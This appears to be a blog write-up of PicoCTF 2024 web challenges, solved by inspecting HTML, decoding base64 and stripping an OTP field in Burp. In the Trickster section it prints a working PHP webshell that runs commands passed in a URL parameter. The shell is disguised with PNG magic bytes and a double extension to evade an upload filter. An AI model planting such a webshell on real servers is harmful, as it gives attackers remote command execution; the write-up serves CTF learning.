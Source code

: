 +++
title = "PicoCTF 2024: Web Exploitation"

[taxonomies]
tags = ["picoctf", "coding", "ctf", "web"]
+++

I have considered myself... practically done with the Forensics category for
PicoCTF 2024. It truly is a guessfest whether or not your first solution is
correct - I can't believe throwing out a random `find` into the command-line
actually gave me the answer for [Mob
psycho](picoctf-2024-forensics#mob-psycho)...

Well, here we go again, this time in my arguably best non-forensics category -
Web Exploitation! Once again, I will be going through each of the challenges and
solving them, while writing out my thought process for each challenge.

> Same thing as Forensics, this blogpost will describe the challenges and give
> the solutions to them - but I will not be giving out the flag in its entirety.
> All solutions with the flag in plain text will have the flag replaced by
> `picoCTF{flag}`.

# WebDecode

> **Difficulty**: Easy \
> **Categories**: none

Well... We're thrown straight into a website that looks *really* suspicious.
I'll perform due dilligence and... inspect the site HTML. Nothing in the home
page, so I'll go into the About page.

And upon loading the About page, wow, the **very loud** text saying "Try
inspecting the page!! You might find it there" really confirms that I'm getting
somewhere.

Hitting F12 to open up my DevTools and I immediately see a weird section of
HTML:

```html
<section class="about" notify_true="cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9">
   <h1>
    Try inspecting the page!! You might find it there
   </h1>
   <!-- .about-container -->
  </section>
```

That string looks very suspicious. One quick run into the base64 decoder again,
using:

```
$ echo "cGljb0NURnt3ZWJfc3VjYzNzc2Z1bGx5X2QzYzBkZWRfMDdiOTFjNzl9" | base64 -d
```

Aaaaaaaaand we've got it! Very simple challenge.

# Unminify

> **Difficulty**: Easy \
> **Categories**: obfuscation, minification

Yet another webpage, similar to [WebDecode](#webdecode) above. Once again, let's
open up our DevTools and scan through the HTML.

It didn't take long before I reached this section of HTML:

```html
<p class="picoCTF{flag}"></p>
```

That's our flag, time to copy it and submit it.

# Bookmarklet

> **Difficulty**: Easy \
> **Categories**: obfuscation, browser

The website gives us another site, in the same template as
[Unminify](#unminify). It also gives us a JavaScript bookmarklet to run as well.
As it describes itself, it's a bookmarklet - very similar to my Kamaitachi
maimai DX [import script](https://github.com/j1nxie/kt-maimaidx-site-importer).
Let's create a quick bookmark and throw this in as the URL.

As soon as we click the bookmarklet, the flag shows up as an alert!

# IntroToBurp

> **Difficulty**: Easy \
> **Categories**: none

Well, as described by the challenge name, we'll need
[BurpSuite](https://portswigger.net/burp) for this. Let's pull up BurpSuite and
open the website in BurpSuite's browser (Proxy > Intercept > Turn on Intercept).

We see a little form that tells us to put our information in, and being the sane
person that I am, I will put in my fully 100% real information into this.

![Screenshot of IntroToBurp form](/image/picoctf/introtoburp1.png)

Hitting the Register button, while forwarding the packet as-is to the server,
brings us to another form.

![Screenshot of IntroToBurp 2FA](/image/picoctf/introtoburp2.png)

It's asking for an OTP code... but I haven't received anything. Weird. Let's try
throwing in a random string... like `a` and submit it. BurpSuite nicely catches
that request for us, and we can see the form data `otp=a` in the raw request
packet. Let's try... removing that and see what happens!

After removing the OTP code from the form data, we got ourselves a nice
malformed... well... form data sent over the wire. Let's see how the server
reacts... And we got our flag!

# Trickster

> **Difficulty**: Medium \
> **Categories**: none

This is actually... a pretty tough one if you don't know where to immediately
start. I opened up the site that the challenge gave, and there was no clear
entry points to... anything, really. Uploading a PNG only gets a result string
shown to you, like below.

![Screenshot of Trickster form](/image/picoctf/trickster1.png)

I tried accessing a random directory, e.g. `atlas.picoctf.net:<port>/what`, and
I got a 404 Not Found. That's expected. I also see this is running Apache, which
means... there's PHP. But we haven't seen any clear entry points to get an
arbitrary PHP script running here.

Let's get back to the root site. Sitting here won't do us any good, I guess it's
time to use some tools? Using `gobuster`, and running a brute-force for URIs
like such:

```
$ gobuster dir --url http://atlas.picoctf.net:<port>/ --wordlist /usr/share/wordlists/dirb/big.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://atlas.picoctf.net:<port>/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 285]
/.htpasswd            (Status: 403) [Size: 285]
/robots.txt           (Status: 200) [Size: 62]
/server-status        (Status: 403) [Size: 285]
/uploads              (Status: 301) [Size: 333] [--> http://atlas.picoctf.net:49884/uploads/]
Progress: 20469 / 20470 (100.00%)
===============================================================
Finished
===============================================================
```

We're seeing `robots.txt` that we can access, and `/uploads` being redirected to
the root directory - looks like there's gonna be an accessible folder there.
Let's try accessing `robots.txt`...

```
User-agent: *
Disallow: /instructions.txt
Disallow: /uploads/
```

So the *very root* directory of `/uploads/` is not crawled, along with the file
`instructions.txt`. Let's try looking at `instructions.txt`.

```
Let's create a web app for PNG Images processing.
It needs to:
Allow users to upload PNG images
	look for ".png" extension in the submitted files
	make sure the magic bytes match (not sure what this is exactly but wikipedia says that the first few bytes contain 'PNG' in hexadecimal: "50 4E 47" )
after validation, store the uploaded files so that the admin can retrieve them later and do the necessary processing.
```

Interesting... It looks like this doesn't do much validation on the PNG files
themselves, other than checking for the `.png` extension *existing* in the file
name, and the first few bytes containing `PNG`. I guess the uploaded files will
also be stored under `/uploads/<file_name>`? That's an entry for our PHP now,
no?

I will modify
[easy-simple-php-webshell](https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985)
a tiny bit, so it has the magic bytes for PNG at the top.

```php
PNG
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

Along with that, I'll add the `.png` extension, saving it as `webshell.png.php`
so it passes the extension check. Let's try uploading this. The form accepted it
without any complaints! Time to try accessing this webshell under
`/uploads/webshell.png.php`.

We're in. Let's try running `ls ../` to see the root directory. There's a weird
file with the name `MQZWCYZWGI2WE.txt`. A simple `cat` on this file finally
gives us the flag we're looking for!

# Afterwords

The final challenge of this category - titled "elements", honestly deserves a
post of its own. It's of another level, and I've never seen myself so stuck on
one. With that being said, that's practically all the solvable web challenges
for PicoCTF 2024 as of writing this post. Thank you all for reading through to
the end!
